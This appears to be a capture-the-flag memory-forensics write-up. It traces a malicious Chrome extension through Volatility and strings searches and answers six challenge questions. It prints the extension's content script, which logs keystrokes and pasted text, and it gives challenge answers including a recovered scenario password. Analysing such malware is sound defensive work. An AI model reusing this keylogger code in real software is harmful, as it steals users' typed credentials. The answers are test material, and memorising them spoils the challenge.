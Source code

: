 # Stealth Invasion

Selene's normally secure laptop recently fell victim to a covert attack. Unbeknownst to her, a malicious Chrome extension was stealthily installed, masquerading as a useful productivity tool. Alarmed by unusual network activity, Selene is now racing against time to trace the intrusion, remove the malicious software, and bolster her digital defenses before more damage is done.

-----
### (1) What is the PID of the Original (First) Google Chrome process:

Ran `strings` against the memory dump and `grep 'Chrome'`, trying each of the PIDs

```
4080
```

### (2) What is the only Folder on the Desktop

Ran `strings` against the memory dump and `grep 'Desktop'`:

```
malext
```

### (3) What is the Extension's ID (ex: `hlkenndednhfkekhgcdicdfddnkalmdm`)

Ran `strings` against the memory dump and `grep '\\Google\\Chrome` and `grep Extension`, trying each ID:

```
nnjofihdjilebhiiemfmdlpbdkbjcpae
```

### (4) After examining the malicious extension's code, what is the log filename in which the data is stored

Ran `vol windows.filescan.FileScan` for `malext` to find memory addresses:

```
0xa708c8d9ec30  \Users\selene\Desktop\malext\background.js
0xa708c8d9fef0  \Users\selene\Desktop\malext\manifest.json
0xa708c8da14d0  \Users\selene\Desktop\malext\rules.json
0xa708c8da1e30  \Users\selene\Desktop\malext\content-script.js
0xa708ca379980  \Users\selene\Desktop\malext\_metadata\generated_indexed_rulesets\_ruleset1
```

Ran `vol windows.dumpfiles` to get these files. Found `content-script.js` logs keystrokes to file:

```javascript
var conn = chrome.runtime.connect({ name: "conn" });

chrome.runtime.sendMessage('update');

(async () => {
    const response = await chrome.runtime.sendMessage({ check: "replace_html" });
    console.log(response)
})();

chrome.runtime.sendMessage('replace_html', (response) => {
    conn.postMessage({ "type": "check", "data": "replace_html" });
});

document.addEventListener("keydown", (event) => {
    const key = event.key;
    conn.postMessage({ "type": "key", "data": key });
    return true;
});

document.addEventListener("paste", (event) => {
    let paste = event.clipboardData.getData("text/plain");
    conn.postMessage({ "type": "paste", "data": paste });
    return true;
});
```

Searching output file `filescan` for `nnjofihdjilebhiiemfmdlpbdkbjcpae`, found the log file was `000003.log`.

```
000003.log
```

### (5) What is the URL the user navigated to

Extracted `000003.log`, found the user visited `drive.google.com`

```
drive.google.com
```

### (6) What is the password of `selene@rangers.eldoria.com`

After entering `selene@rangers.eldoria.com`, the password entered is `clip-mummify-proofs`

```
clip-mummify-proofs
```